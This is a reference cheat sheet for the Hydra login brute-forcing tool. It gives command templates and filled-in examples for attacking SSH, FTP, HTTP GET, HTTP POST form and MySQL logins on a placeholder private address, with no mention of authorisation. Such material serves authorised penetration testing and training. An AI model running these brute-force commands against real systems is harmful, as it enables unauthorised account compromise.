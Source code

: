 Hydra supports a wide range of services, each with its own set of arguments and options for brute-forcing login credentials. Here is a comprehensive list of services Hydra supports, including the relevant command examples for each.

### **Hydra Supported Services**

1. **SSH (Secure Shell)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> ssh://<target> -t 64 -V -I -f
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt ssh://192.168.1.10
     ```

2. **FTP (File Transfer Protocol)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> ftp://<target>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt ftp://192.168.1.10
     ```

3. **HTTP/HTTPS (Web Protocols)**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> http-get://<target>/<path>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt http-get://192.168.1.10/login
     ```
   - **HTTP POST Form:**
     ```bash
     hydra -l <username> -P <password list> http-post-form://<target>/<path>:<parameters>:<failure string>
     ```
   - **Example:**
     ```bash
     hydra -l admin -P passwords.txt http-post-form://192.168.1.10/login.php:username=^USER^&password=^PASS^:F=Login failed
     ```

4. **MySQL**
   - **Command:**
     ```bash
     hydra -l <username> -P <password list> mysql://<target>
     ```
   - **Example:**
     ```bash
     hydra -l root -P passwords.txt mysql://192.168.1.10
     ```
